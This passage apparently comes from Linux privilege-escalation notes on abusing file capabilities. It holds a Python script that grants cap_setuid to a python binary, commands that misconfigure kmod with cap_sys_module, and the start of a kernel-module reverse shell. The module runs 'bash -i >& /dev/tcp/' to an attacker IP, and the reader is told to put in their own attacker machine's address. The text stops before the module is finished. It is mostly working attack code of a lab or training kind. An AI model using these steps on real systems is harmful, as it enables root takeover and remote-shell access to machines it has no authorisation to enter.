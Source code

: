 ```python title:setcapability.py
# Get the binary path from arguments
path = sys.argv[1]
print(f"Setting capabilities for binary: {path}")

# The capability you want to add (in this case, cap_setuid)
cap = 'cap_setuid+ep'

# Convert the capability text to internal format (encode as byte string)
cap_t = libcap.cap_from_text(cap.encode('utf-8'))

# Set the capability for the specified binary
status = libcap.cap_set_file(path.encode('utf-8'), cap_t)

# Check if the operation was successful
if status == 0:
    print(f"Successfully added {cap} to {path}")
else:
    print(f"Failed to add {cap} to {path}")

```

```bash
/usr/bin/python3.9 setcapability.py /usr/bin/python3.9
```

```bash
[armour@localhost ~] getcap -r / 2> /dev/null
/usr/bin/python3.9 cap_setuid=ep
```




## cap_sys_module

#### Misconfiguring

```bash
setcap cap_sys_module+ep /usr/bin/kmod
```

#### Exploiting

- Change the IP address of the C code to the IP of your attacker machine.

```bash
cd
```

```bash
vim reverse-shell.c
```

```c title:reverse-shell.c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/192.168.1.150/443 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

```